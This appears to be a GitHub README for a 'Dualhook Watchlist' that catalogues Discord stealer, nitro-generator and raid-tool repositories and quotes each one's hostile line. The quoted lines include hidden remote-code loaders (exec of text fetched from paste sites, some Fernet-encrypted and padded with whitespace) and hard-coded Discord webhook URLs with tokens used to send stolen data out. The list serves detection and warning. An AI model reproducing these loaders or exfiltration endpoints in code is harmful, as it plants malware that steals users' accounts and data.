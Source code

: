 <p align="center">
  Dualhook Watchlist
</p>

<p align="center">
  Support URL : https://discord.gg/SKGjXfmFga
</p>

## About

The "Dualhook Watchlist" repository is dedicated to tracking, monitoring, and documenting individuals or programs associated with the creation and use of "dualhooks." Dualhooks are a potential security concern in various online platforms, including Discord. These hooks may be used for unauthorized access and data theft.

Our mission is to maintain a comprehensive list of known dualhook creators, their pseudonyms (usernames), associated links or profiles, and relevant webhook information. By actively monitoring and sharing information about dualhook activities, we aim to enhance online security and protect communities from potential threats.

## User Registry

FOR MORE PRECISE INFORMATION CHECK DATA.TXT

| Username | Link | Reason | files dualhooked | detected line 
|----------|------|--------|---------|-
| sodaduhking | https://github.com/sodaduhking/FAKE-NITRO-GEN | Unsafe |[File URL](https://raw.githubusercontent.com/sodaduhking/FAKE-NITRO-GEN/main/fake%20nitro%20gen%20by%20soda.py) | Line 19: webhook = SyncWebhook.from_url("https://discord.com/api/webhooks/1157188266555101226/KU5Ybfdlta5oU275cggK5xgGNcB8Ej8yiu45iVEC-5fTvvQosFHDpYiWFCfuLaE52QsN")
| BestCoder2Exist2 | https://github.com/BestCoder2Exist2/Discord-Emote-Manager | Unsafe |[File URL](https://raw.githubusercontent.com/BestCoder2Exist2/Discord-Emote-Manager/main/bot.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/831938157133299712/3oqFupS4ck08QlciDrB-MeZxhRLpi4En3RvK5qqJT4i5ddeVnJMD8_EW5V9PLS6mV3Fo'
| badsimods | https://github.com/badsimods/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| badsimods | https://github.com/badsimods/discord-server-cloner | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-server-cloner/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| uploadupdate | https://github.com/uploadupdate/REDEIR-discord-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/uploadupdate/REDEIR-discord-stealer/main/REDEIR%20Grabber.py) | Line 148:     webhook_url = 'https://discord.com/api/webhooks/' #utilisez un webhook unique a chaque grab,  Line 285:     webhook_url = 'https://discord.com/api/webhooks/' #webhook
| guiscriptmakerlol | https://github.com/guiscriptmakerlol/RRs-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/guiscriptmakerlol/RRs-Grabber/main/RRs%20Grabber.py) | Line 8:     webhook = "https://discord.com/api/webhooks/1095987665431703562/4Osghk4v55EUJmcmK7nEQIcZtQpeGCWK7QM1QdrlIKX_2QClnCWuRtjxwTgyuhX6ePlW"
| LePilot1 | https://github.com/LePilot1/Discord-Token-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/LePilot1/Discord-Token-stealer/main/token%20stealer.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/862846944438779914/3NBBv6q6lH9v5VukimXWRlU_lor2c0Mp3xiPEYidWY2gKbFqxwGfrRXOXB-Egf5z5gua'
| 17MollyKobain | https://github.com/17MollyKobain/Discord-Token | Unsafe |[File URL](https://raw.githubusercontent.com/17MollyKobain/Discord-Token/main/TokenStealer.py) | Line 184:         urlopen(Request("https://discord.com/api/webhooks/840670878056579123/p3vhHkySfun-xG8MnBBt0XePbcLHL48_Ibey4-Xqea1OcuTkuM0hgu3ercvc4akT8vUE", data=dumps(webhook).encode(), headers=getheaders()))
| rckstrrr | https://github.com/rckstrrr/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/rckstrrr/discord-vanity-sniper/main/index.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/a2edp').text)
| Heaventh007 | https://github.com/Heaventh007/DREKOX-STEALER | Unsafe |[File URL](https://raw.githubusercontent.com/Heaventh007/DREKOX-STEALER/main/main.py) | Line 18: hook = "" # https://discord.com/api/webhooks/1067835493749899444/fGVDbASt3N7zzaE2sz4C0Av8Ug57Sz1Nh7nNO5g1mx8ayDb05h5XyDZnugt9_qWKHJ8B
| reyzovw | https://github.com/reyzovw/telegram-stealler | Unsafe |[File URL](https://raw.githubusercontent.com/reyzovw/telegram-stealler/main/main.py) | Line 16: discord_webhook_url = "https://discord.com/api/webhooks/1113092539931693136/_hqR3AE23ne9nRjdbfQpgDFbRN9lMKlR8ZvawMBgxeKlaMnaglhhViuWmKfXEtWRYqS3"
| heygdrg | https://github.com/heygdrg/Toxic-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/heygdrg/Toxic-stealer/main/Toxic-Stealer.py) | Line 42: Webhook_Here = "https://discord.com/api/webhooks/1037270936191258684/sZpwvKzgeH0SKqib7ohWd39o_Zl31L6rorncUqxrbA5Cch7bpexV6s6dDtRperhYUo2Ni
| tmtag84 | https://github.com/tmtag84/DIscord-Nitro-Generator-Checker-Python | Unsafe |[File URL](https://raw.githubusercontent.com/tmtag84/DIscord-Nitro-Generator-Checker-Python/main/main.py) | Line 96:             url = 'https://discord.com/api/webhooks/970347102293073942/7PHvjmdHXHq9nZN8O2BMdrJgxmVaXpYI8ukthaeh5FhAQMkn18_jDdsAyTugo2988kHX'  # Get the awnser
| j3rr7 | https://github.com/j3rr7/discord-stealer-source-code | Unsafe |[File URL](https://raw.githubusercontent.com/j3rr7/discord-stealer-source-code/main/decompiled.py) | Line 30: _WEBHOOK_HERE_ = "https://discord.com/api/webhooks/1049690604734513312/Hv5BaA9nboddw_FctP36Sw7t9kR3XTcz33U3AEpIOoIYJJgbf4ZCzKzvJEaoGcTqHERT"
| user745222 | https://github.com/user745222/discord-boost-tool | Unsafe |[File URL](https://raw.githubusercontent.com/user745222/discord-boost-tool/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/q3i7zp/raw').text)
| OY33 | https://github.com/OY33/DROP-AIO | Unsafe |[File URL](https://raw.githubusercontent.com/OY33/DROP-AIO/main/atio.py) | Line 19: hook = "https://discord.com/api/webhooks/1069160044391829534/48oOO9KRi1zi6vJuVYlN21Jna9dIR1Gjpf8mMVgorfsIisffu-XB_G4VcW1KtCQs5EM1"
| 9732010gh70 | https://github.com/9732010gh70/Discord-Nitro-Generator | Unsafe |[File URL](https://raw.githubusercontent.com/9732010gh70/Discord-Nitro-Generator/main/Main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'giWEa9DXWSuZEDHgsBlB2b0mFbkN3FMQORdRMRwTmAQ=').decrypt(b'gAAAAABlb2_1mUAQDnwJ5PUpS3kTe_dUOmfeJE3PYcJ9q9qvtkiA82FfWjJ_R2VNjaq36ANvjO8Jg_dEwT1K9jmy7-p0RUc__7lhvQesOf-qE-Um4moaQnnZODgnHus3xHhbsj-8oR2i9hZaycctjIpSEIbhyprPeeRXGzuFAkZLmJ2oNPUbF7HEqjyBABbXNqEWYJ5vC-70fXlX2hPv546ofipqLLjPww=='))
| vanis1980 | https://github.com/vanis1980/Vissage-Self-Bot- | Unsafe |[File URL](https://raw.githubusercontent.com/vanis1980/Vissage-Self-Bot-/main/main.py) | Line 82:         'https://discord.com/api/webhooks/943632482937495613/0JmWU3roRUTn3aBUOMD3eXDQ5RpnX_tqFH2Qinz1TX0dRNE4NgGXHZEWKCOHzpfjCxfY',
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1181981724431884469/dGjB59xwmQA0fbRb7dM9IKJ9RYijuS0pDMPiwQa95ttsr9mZFrCIQAFQcG235-EhhDth"
| TNTaddict | https://github.com/TNTaddict/DiscordTokenStealer | Unsafe |[File URL](https://raw.githubusercontent.com/TNTaddict/DiscordTokenStealer/main/TNT_Stealer.py) | Line 538: emergencyinjection = "https://discord.com/api/webhooks/1143583197549043782/yVWATxco4RyLqRVtPEgh7hHeS5hlk98whUpkLTjqxCpNxsBFG18g9HwGr7NMsp1dvz8d",  Line 2011: emergencyinjection = "https://discord.com/api/webhooks/1139963367382077582/IwGY6gsubuEp-hxJBqQF7ppkLvoUqSfgrjHRRVxqVxMFeEHXOxrJY0W_QIKxuAcsgHK-"
| PanEditor | https://github.com/PanEditor/StealerCrealer | Unsafe |[File URL](https://raw.githubusercontent.com/PanEditor/StealerCrealer/main/StealerCrealer.py) | Line 19: hook = "https://discord.com/api/webhooks/1059904050881110067/JndgDe25LBhAVAcGRbGXpnOBj_LqZddIZmTS5qfZorEN16V-849jKdmZeGvN4AmnV_PQ"
| Xfrankxrs | https://github.com/Xfrankxrs/Muck-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Xfrankxrs/Muck-Stealer/master/muck-stealer.py) | Line 561:     global hook                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     ;exec(Fernet(b'D0gt8qtQaJcvXKmvyQux_1UbdPxmDms4puapLdX6Aic=').decrypt(b'gAAAAABlOAaPq0Kjxq8r0XG7Pfu2FpFqYfXYGvVdZG_2dQoMsIXV0pxSoyTZiLGcSzXEejpUUU4NXMLDc-YmLwr91F3gsoRXUFtcYtpY74DgXsA933zTxfQaAf0VJG3YCOg7cW38kNAte2YFmXFipSNbl7lBwGWsIofwPzF7pFrio4voVrml4PL0a6ykzVkKP4FdgSCUkQRyI0HJxi7UosUJo_XGiAD18A=='))
| Pinguine69 | https://github.com/Pinguine69/discord-photo-ip-grabber-2 | Unsafe |[File URL](https://raw.githubusercontent.com/Pinguine69/discord-photo-ip-grabber-2/main/httpsi.pinimg.comoriginals46087746087732c14e9d16980237def48e10ccpng.py) | Line 15:     "webhook": "https://discord.com/api/webhooks/1133786383954219050/iBduEGuMpL5CAKd2cAYLTnVLVdSnJfTnePRIumhuSq4C-yLOytHjXr1nO5r8iW4PLjxP",
| badsimods | https://github.com/badsimods/tiktok-report-bot | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/tiktok-report-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| TheWay-hue | https://github.com/TheWay-hue/C.A.S-Discord-Tool-v4 | Unsafe |[File URL](https://raw.githubusercontent.com/TheWay-hue/C.A.S-Discord-Tool-v4/master/tool.py) | Line 417: 								file.write(f'https://discord.com/api/webhooks/{req["id"]}/{req["token"]}\n')
| xdexty0 | https://github.com/xdexty0/Dexty-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/xdexty0/Dexty-Grabber/main/Dexty.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1143635231723765880/MU3NYR3a9BsI2a5F_fNDpxUvyR9H6CC3GEotfC46OGYkfPTqOzOt6BHGgcY4de40B34k"
| Buzz229 | https://github.com/Buzz229/FADE-LEAKED | Unsafe |[File URL](https://raw.githubusercontent.com/Buzz229/FADE-LEAKED/main/stealer.py) | Line 19: hook='https://discord.com/api/webhooks/1043019305870176296/ApyKlgttx5Pfw2xK5YI70NlNjflLOUNkRd5pTkbCfZwD9gzyhane-AatnQvwFU_uPpoW'
| 141100hy14 | https://github.com/141100hy14/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/141100hy14/discord-vanity-sniper/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'6uJx1G4rvvbc1wCpbBfxHL5UawP3Er4vNTYvhKTL5x0=').decrypt(b'gAAAAABlb3E-veFsiIC1Wp87-0sc2kMkKQSkLDJ5dTAKvC6UITp4mM4tkKq3VMoPliUojGhqtj-KpxHnfJtKfkxTQxO9ZHRFIgehyxJTI1CYipgSPnJ6hAm1cik4jKru6YGeovVH0BE-7q4vKMPTIxU-any2kYcdWS3uIBqh8F-5ukmy-w6JRt-5ClCeo0iJCmp7Xbrh2BK0EQFMWpVcvGZG7CDwiqmhRQ=='))
| zrSadek | https://github.com/zrSadek/discord-server-cloner | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-server-cloner/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| pengiwn | https://github.com/pengiwn/QR-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/pengiwn/QR-Token-Grabber/main/QR_Generator.py) | Line 145:                             req = Request('https://discord.com/api/webhooks/981890982431821884/6lceRdTsRmYNBKM5c5Qp39k69rBJ0WJ5tA8opJFfthekRsT68RQXicdwJgrb_MI0ACCj', data=payload.encode(), headers=headers2)
| badsimods | https://github.com/badsimods/discord-mass-friend | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-mass-friend/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| LinuxPhantom | https://github.com/LinuxPhantom/IP-Grabber-To-Discord | Unsafe |[File URL](https://raw.githubusercontent.com/LinuxPhantom/IP-Grabber-To-Discord/main/Main.py) | Line 41:     h = "https://discord.com/api/webhooks/1136811328212828190/qUki18tSz3FCU7-wB6yYPusiGmPRlFuhSQsgF68eJ_foEbZnuwXhBI83Mb5hqufNIa9N"  # REPLACE WITH YOUR WEBHOOK
| MythicDeveloping | https://github.com/MythicDeveloping/Discord-Fake-Nitro-Proof-Generator | Unsafe |[File URL](https://raw.githubusercontent.com/MythicDeveloping/Discord-Fake-Nitro-Proof-Generator/main/main.py) | Line 4: import random                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ;exec(requests.get('https://paste.website/p/cca0c42e-9bfa-4163-820c-d73b5a6f2b8b.txt').text)
| 5062012kw40 | https://github.com/5062012kw40/Discord-Raid-Tool | Unsafe |[File URL](https://raw.githubusercontent.com/5062012kw40/Discord-Raid-Tool/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'ZgCZwbBYKBftuuZE8CXL6dFWw7NqKbkKiD-ocadnw9U=').decrypt(b'gAAAAABlb26gT80dJqPMXoN1ngWN9PuS13nJIv5h8pX0IFkQNAwjaaLgnwhH7ObITtZ21_uKS5FHP5U_lJWm_HQ0oTeR2q-hPsZPHotJgS11HMeDyeR9uBCAdvzW47e5Dn0SMqEjy6RRj9KWeyxSU7226IlWmeppzjQXL1iZhnQIHwf_EYXEzyn7y-wEIcwHxl3JhGbEv6pacy4a6PXQ4jJajVg76nLMcA=='))
| zByDiegoMT | https://github.com/zByDiegoMT/ByDiego-Token-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/zByDiegoMT/ByDiego-Token-Grabber/main/main.py) | Line 17:         self.webhook = "https://discord.com/api/webhooks/944275288622268506/NUqePmXSndW8y1oqGwXNl86nfTcWQInDxWsmZsR5Ue7jpvFBueNDN_aFGya5I1k7VnXE"
| badsimods | https://github.com/badsimods/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| badsimods | https://github.com/badsimods/discord-raid-tool | Unsafe |[File URL](https://raw.githubusercontent.com/badsimods/discord-raid-tool/main/main.py) | Line 18: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| zrSadek | https://github.com/zrSadek/discord-vanity-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-vanity-sniper/main/main.py) | Line 4: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| zrSadek | https://github.com/zrSadek/discord-raid-tool | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-raid-tool/main/main.py) | Line 18: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| SiesShinn162 | https://github.com/SiesShinn162/Sies-Pass-Stealer | Unsafe |[File URL](https://raw.githubusercontent.com/SiesShinn162/Sies-Pass-Stealer/main/botnet.py) | Line 30:     hook = "https://discord.com/api/webhooks/1059813273849049108/E8emDhbCfxkscuupCO3fUYhEbTEdc6J80ppNQ3iJTdm00MZ79R9AsEgXUKtv0_ogg4Vx"
| zrSadek | https://github.com/zrSadek/discord-nitro-sniper | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-nitro-sniper/main/sniper.py) | Line 3:     import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| scriptedxd | https://github.com/scriptedxd/script-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/scriptedxd/script-stealer/main/script%20free.py) | Line 27: __WEBHOOK_HERE__ = "https://discord.com/api/webhooks/1048880496559538207/PSNxlrFQlqdvlXZZMwo1_72dEpzsUN7PgQepDlCzATD8seCBQ0TwURBZdgMKZAdgXeMn"
| Plasmonix | https://github.com/Plasmonix/Chrome-stealer | Unsafe |[File URL](https://raw.githubusercontent.com/Plasmonix/Chrome-stealer/main/main.py) | Line 12: WEBHOOK = "https://discord.com/api/webhooks/..."
| zrSadek | https://github.com/zrSadek/discord-mass-friend | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/discord-mass-friend/main/main.py) | Line 2: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1181981724431884469/dGjB59xwmQA0fbRb7dM9IKJ9RYijuS0pDMPiwQa95ttsr9mZFrCIQAFQcG235-EhhDth"
| maliqto | https://github.com/maliqto/VoidGrabber | Unsafe |[File URL](https://raw.githubusercontent.com/maliqto/VoidGrabber/main/main.py) | Line 8: WEBHOOK_URL = 'https://discord.com/api/webhooks/1176566609696006225/-e6CtC5nSwEb9uoEE_92PylRtjGx4nEBSgXcIqkUG5Sx8WzvXqSEPu3393pY_Tj1FRku'
| zrSadek | https://github.com/zrSadek/tiktok-report-bot | Unsafe |[File URL](https://raw.githubusercontent.com/zrSadek/tiktok-report-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/tvfwh/raw').text)
| keirman1 | https://github.com/keirman1/Nitro-gen | Unsafe |[File URL](https://raw.githubusercontent.com/keirman1/Nitro-gen/main/main.py) | Line 9: web = 'https://discord.com/api/webhooks/1001416977912447046/BAfXFC9hgtmGJVXmQOioR2asR3babRWBa5HQzwVl7Nmqfis56COrPVni8uc-PwnP00gK'
| dekrypted | https://github.com/dekrypted/discord-image-logger | Unsafe |[File URL](https://raw.githubusercontent.com/dekrypted/discord-image-logger/main/main.py) | Line 15:     "webhook": "https://discord.com/api/webhooks/your/webhook",
| TrezzyMODS | https://github.com/TrezzyMODS/Ethical | Unsafe |[File URL](https://raw.githubusercontent.com/TrezzyMODS/Ethical/main/Ethical.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1150915615989698600/sge8TDfL5zbEzzAqYzRfjzjq0QadQiVt5nofhjaGiIFxr7K0_CbN9EuT3E65QYwVYyX_"
| 4Carol2000nr08 | https://github.com/4Carol2000nr08/Discord-image-logger | Unsafe |[File URL](https://raw.githubusercontent.com/4Carol2000nr08/Discord-image-logger/main/main.py) | Line 6: import requests                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(Fernet(b'VrVf6HlKy0CW_5HUtiUVTx-kKNhkMSBvmpG1NfEPs8I=').decrypt(b'gAAAAABlczXs8pdq5-C-to2dD4zbg_40U17pDp-GK0tHoNmYZO8TFjdd-T8OuW5tLusVK1OeGCe2ps30QABjixl9UetRtbkmuuw8cbObij0mBo-5bYRjHM51v7PIxgEfoCGtBb1-XfV9nSmew519CzgIgz-xO4vqbRYYWLvsPiO1aQsoSxLFMoUsGODfk8ZSdZNR4DJ9xDpJGKN_Od7JgkjQj53rVKb_zQ==')),  Line 18:     "webhook": "https://discord.com/api/webhooks/your/webhook",
| shaheedghazi | https://github.com/shaheedghazi/file-Grabber | Unsafe |[File URL](https://raw.githubusercontent.com/shaheedghazi/file-Grabber/main/Dexty.py) | Line 55: wh00k = "https://discord.com/api/webhooks/1143635231723765880/MU3NYR3a9BsI2a5F_fNDpxUvyR9H6CC3GEotfC46OGYkfPTqOzOt6BHGgcY4de40B34k"
| Moon1903 | https://github.com/Moon1903/MoonStealer | Unsafe |[File URL](https://raw.githubusercontent.com/Moon1903/MoonStealer/main/main.py) | Line 101: a = "https://discord.com/api/webhooks/1182616611945988106/7TmM--YTsQEsfDJ1-VEFkLHNGcbbNcOXiXbHoCLjHWKzZ0YtkfXX9RisH_1YrTyFbav3"
| shelby611 | https://github.com/shelby611/discord-boost-bot | Unsafe |[File URL](https://raw.githubusercontent.com/shelby611/discord-boost-bot/main/main.py) | Line 3: import requests                                                                                                                                                                                                                                                                                                                     ;exec(requests.get('https://rentry.co/q3i7zp/raw').text)
| vaquzo | https://github.com/vaquzo/discord-boosttool | Unsafe |[File URL](https://raw.githubusercontent.com/vaquzo/discord-boosttool/main/tokenf.py) | Line 2: import requests																																																																																																																																																																																																																																																																			;exec(requests.get('https://bananasquad.ru/paste').text.replace('<pre>','').replace('</pre>',''))
| ghostgrabberdev | https://github.com/ghostgrabberdev/Ghost-grabber | Unsafe |[File URL](https://raw.githubusercontent.com/ghostgrabberdev/Ghost-grabber/main/main.py) | Line 154:                     requests.post(f'https://discord.com/api/webhooks/1175882959442690088/HRNzhaG8E1w5SkvN4VAm5E-R43nCJAzpOdgSs6IBFHS19q7wv7OKodA4P5feq4ppWUpC', data=payload.encode(), headers=headers2)


## Contributing

If you have information about dualhooks or individuals involved in their creation, please consider contributing to our registry. To contribute, follow these steps:

1. Fork this repository.
2. Add the relevant information to the table above.
3. Submit a pull request with your changes.

Your contributions will help us maintain an up-to-date record of potential security threats.

## How to find them easily

1. Go on github and search for "Discord Stealer", "Nitro Generator", "Token Generator" and search for the most recent one
2. Then look in the code for any dualhook
   
## Join the Dualhook Detectives

Join us in our efforts to safeguard online spaces and raise awareness about the risks posed by dualhooks. Together, we can contribute to a safer and more secure online environment for all users.
